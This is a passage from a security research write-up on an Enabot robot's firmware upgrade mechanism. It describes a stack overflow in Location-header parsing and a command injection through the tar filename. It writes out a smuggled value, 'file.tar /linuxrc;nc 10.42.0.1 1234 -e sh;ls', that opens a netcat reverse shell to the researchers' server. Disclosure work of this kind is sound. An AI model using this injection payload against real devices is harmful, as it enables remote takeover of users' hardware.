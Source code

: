 ```server-a = b\ndomain = 10.42.0.1\ncccccc```

<p style="text-align:center;"><img src="/assets/enabot_part3/handle_uart_upgrade_request.png" alt="ebocontrol" style="height: 70%; width:70%;"/></p>

It would enter that function, and we would see all the config prints for the upgrade in the logs, and then it reached the end of that function it would create an ```FZ_Upgrade_Thread```

Once inside of this function, it would continue down and create 2 more threads. The one we care about is the ```FZ_FileDownload_Thread```. This is the thread that we perform our initial exploit. Inside of this thread we hit the ```Getresource_domain``` function. This function allows the device to reach out to the server to see what url it should download the upgrade file from.

<p style="text-align:center;"><img src="/assets/enabot_part3/first_request.png" alt="ebocontrol" style="height: 70%; width:70%;"/></p>


It sends a `POST` request to the server and in the response it checks for ```HTTP/1.1 302 Found```. After that it checks for ```Location: ```. It will then strncpy all the data after location up until it sees a newline character. We tested this an were actually able to [overwrite the return address](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/stack-based-buffer-overflow) to the function call above since the destination in the ```strncpy``` is a pointer to the stack from function above. We weren't able to exploit it because we didn't have a leak and the device has ASLR enabled. If we had a leak we could've created a [ROPchain](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/rop-chaining-return-oriented-programming) to spawn a netcat listener. In the end, we didn't need to do this, because we had a vision for where we could perform a command injection.

Instead, we just replace the ```Location:``` value. It should download the firmware from our server's url.

We return from that function and then hit the ```FZ_Get_Remote_File``` in the ```Fz_FileDownload_Thread``` function seen from above.


<p style="text-align:center;"><img src="/assets/enabot_part3/get_remote_update_file.png" alt="ebocontrol" style="height: 80%; width:80%;"/></p>

The reason we didn't dive to deep into the buffer overflow is because we had our eye on the possible command injection in this function. If we could pass a ridiculous filename to the tar command, we could start a netcat reverse shell. If the filename were something like the following, it would work

```file.tar /linuxrc;nc 10.42.0.1 1234 -e sh;ls```

After the snprintf, the command would like something like this

```tar -xf /var/avi/mmc0/upgrade/remote/file.tar /linuxrc;nc 10.42.0.1 1234 -e sh;ls -C /var/avi/mmc0/upgrade/ipc_grade/```

Once that string hit the system command, it would tar up the linuxrc into a file called file.tar.

Then it would hit the semicolon indicating its running a different shell command. It would try to connect to our server while opening a shell for us to communicate with if the connection suceeds. Then we could have a netcat listener running and be able to have complete access to the device once it connects.

After we close the netcat connection, it would hit the next semicolon indicating it should run the next shell command with the -C option which would just list the directory with an empty color command

Regardless of if the `tar` or `ls` commands failed, the netcat listener would still open, but it's nice to make everything execute cleanly when possible. To get to this command injection we first had to enter the ```GetFile_updatefile``` function.

```